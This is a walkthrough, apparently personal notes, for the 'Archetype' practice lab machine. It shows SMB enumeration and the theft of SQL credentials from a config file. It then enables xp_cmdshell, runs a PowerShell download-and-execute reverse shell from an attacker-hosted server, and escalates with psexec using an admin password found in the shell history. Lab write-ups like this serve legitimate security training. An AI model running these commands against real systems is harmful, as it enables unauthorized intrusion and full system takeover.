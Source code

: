 # Archetype
---
### Initial Enumeration and Foothold

Running [[Nmap]] on Target IP  **10.10.10.27**
```bash
nmap -sV 10.10.10.27

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
```

Attempting to connect to 445 filsehare using [[SMBClient]]
```bash
smbclient -N -L \\\\10.10.10.27\\

| Sharename | Type | Comment       |
| --------- | ---- | ------------- |
| ADMIN$    | Disk | Remote Admin  |
| backups   | Disk |               |
| C$        | Disk | Default share |
| IPC$      | IPC  | Remote IPC    |

smbclient -N \\\\10.10.10.27\\backups
smb: \> dir
  .                                   D        0  Mon Jan 20 12:20:57 2020
  ..                                  D        0  Mon Jan 20 12:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 12:23:02 2020
smb: \> get prod.dtsConfig 
```

This file `prod.dtsConfig` provides the following credentials from an SQL server:
>Password=M3g4c0rp123
>User ID=ARCHETYPE\sql_svc
>Provider=SQLNCLI10

We can use [[impacket-mssqlclient]]  to access the SQL Server
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
```

Configure to get RCE
```bash
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1reconfigure;
SQL> xp_cmdshell "whoami"
```
>archetype\sql_svc

Setup reverse shell listener on attacker with [[Netcat]]
```bash
nc -lnvp 1234
```

On attacking machine, create [[shell.ps1]] and host on webserver
```bash
vim shell.ps1
...
python3 -m http.server 8000
```

and execute SQL to connect to reverse shell
```bash
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.25:8000/shell.ps1\");"
```

---
### Privilege Escalation

Powershell history file reveals admin credentials
```bash
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

Connect to powershell using [[impacket-psexec]]
```bash
impacket-psexec 'administrator:MEGACORP_4dm1n!!@10.10.10.27'
...
C:\Windows\system32>whoami
nt authority\system
```

Obtain `root.txt` Flag
```bash
C:\Users\Administrator\Desktop>type root.txt
```

---
Next Lab: [[02-Oopsie]]